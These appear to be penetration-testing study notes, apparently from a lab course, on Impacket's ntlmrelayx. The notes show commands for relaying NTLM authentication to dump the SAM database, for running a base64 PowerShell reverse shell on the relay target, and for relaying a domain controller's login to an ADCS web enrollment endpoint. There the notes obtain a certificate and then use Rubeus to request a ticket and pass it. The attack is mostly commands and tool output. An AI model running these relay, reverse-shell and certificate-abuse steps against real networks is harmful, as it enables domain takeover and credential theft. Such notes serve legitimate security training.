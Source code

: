 By default, `ntlmrelayx` dumps the SAM database
```shell-session
$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP>
```
>NOTE: Make sure `SMB = Off` in Responder's config

```shell-session
$ sudo impacket-ntlmrelayx -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```
# Useful Flags
- `-c`: Execute commands

We can get Powershell reverse shell using [https://www.revshells.com](https://www.revshells.com/) (Powershell #3 (Base64)).
```shell-session
$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP> -c 'powershell -e JABj...'
```
Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.
## Relay to ADCS for PKI Certificate
```shell-session
$ sudo impacket-ntlmrelayx -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

... SNIP ...
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIIStQ...SNIP...7YCKBdGmY=
[*] Skipping user ACADEMY-EA-DC01$ since attack was already performed
```
The base64 certificate can be paired with [[getTGTPKINIT]] to request TGT, or with [[Rubeus#Using PKI Certificate|Rubeus]] to request TGT and perform #PtT all at once:
```powershell
PS > .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIISt...SNIP...J51Ry4= /ptt
```